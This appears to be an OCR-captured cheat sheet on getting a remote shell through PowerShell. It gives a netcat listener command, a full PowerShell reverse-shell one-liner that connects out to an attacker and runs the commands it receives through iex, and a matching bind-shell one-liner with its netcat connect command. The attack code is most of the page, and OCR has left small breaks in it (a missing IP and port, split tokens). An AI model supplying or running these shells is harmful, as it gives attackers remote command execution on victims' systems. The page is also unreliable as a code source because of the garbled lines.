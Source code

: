 --- ---

PowerShell is a command-line tool for Windows that can automate tasks and execute commands remotely. It has a powerful feature to create a reverse shell and obtain a shell on a remote system using the "New-Object".

<h3>Reverse Shell</h3>

Start Netcat on the attacking machine
```
nc -lvnp <PORT>
```

- -l to create a listener
- -v to add some verbosity
- -n option to disable DNS name resolution
- -p to specify the listening port number

This makes the connection and passes off the shell information (i.e. /bin/bash, cmd.exe, powershell.exe):
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('', );$stream = $client.GetStream();[byte[]]$bytes = 0 .65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding] :ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stre am.Flush()};$client.Close()"
```

---

<h3>Bind Shell</h3>

This starts a listen server and binds the shell information to the open port:
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', );$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream(); [byte[]]$bytes = 0 .65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding] :ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stre am.Flush()};$client.Close();$listener.Stop()"
```

Start Netcat on the attacking machine
```
nc -nv <IP-OF-TARGET> <PORT>
```
- -n option to disable DNS name resolution
- -v to add some verbosity